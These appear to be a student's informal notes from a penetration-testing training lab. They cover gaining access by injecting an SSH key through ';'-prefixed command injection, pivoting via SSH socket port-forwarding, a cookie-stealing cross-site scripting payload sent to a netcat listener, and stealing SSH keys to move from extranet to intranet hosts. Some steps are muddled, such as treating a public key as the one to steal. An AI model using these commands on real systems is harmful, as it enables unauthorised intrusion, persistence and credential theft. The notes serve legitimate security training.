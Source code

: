 Studying and shit for keygen
; mkdir /var/www/.ssh
; ls lisa /var/www
(in your terminal on linux) ssh-keygen -t rsa (this makes your key)
(terminal) cat ~/.ssh/id_rsa.pub
; echo "THE ENTIRE KEY" >> /var/www/.ssh/authorized_keys (including the first part, and the student@linops)
; cat /var/www/.ssh/authorized_keys
ssh -S /tmp/DEV DEV -O forward -L2222:10.208.50.42:22 SOCKET2
ssh www-data@localhost -p2222
(this may give an error, run the ssh-keygen command it shows)

Instead of /var/www , it may be within a systems user. This could be seen as /home/Comrade/.ssh/authorized_keys
If you are going into someone's ssh known as comrade. This can be applied into the lesson by using the extranet.

################################
Cross-Site Scripting:
################################
nc -l 127.0.0.1 42070
<script>document.location="http://127.0.0.1:42070/?username=" + document.cookie;</script>


When going from extranet into intra net, you are setting up your localhost like above, the: ssh -S /tmp/DEV DEV -O forward -LLOCALPORT:extranet 
is going to forward your socket that you made (the master socket named DEV) and send it to the extranet IP through the port that you made to forward it (the -L PORT)
Now when you run a localhost ssh ( ssh USERNAMEOFEXTRANET@localhost -p LOCALPORTYOUMADE) it will send you into the extranet.
Things i need to make sure work is doing this with a -D 9050 to send proxychains, but i believe it works. With this you are going to then steal the ssh key OF extranet (cat ~/.ssh/id_rsa.pub)
and save this key that you find into a file named StolenKey, from there you chmod 600 the folder, making sure to double check everything as to not overwrite your ssh key, 
and then you masquerade sshkey to get into the intranet ip you found (cat /etc/hosts , /etc/crontab) Jane will be the device name (intranet) and the IP will be intranet IP.
cat /etc/crontab wioll get you the cronjobs, youll see the backup.tar file in there.
 chmod 600 /home/student/stolenkey
 ssh -i /home/student/stolenkey jane@1.2.3.4
 
scp -P 20010 www-data@localhost:/tmp/backup.gz /home/student/backup.tar.gz
chmod 600 stolenkey1
tar -xvf /home/student/stolenkey1 -C /home/student/stolenkey1_gun

ssh -i /home/student/stolenkey1 Donovian-Intranet@192.168.150.253


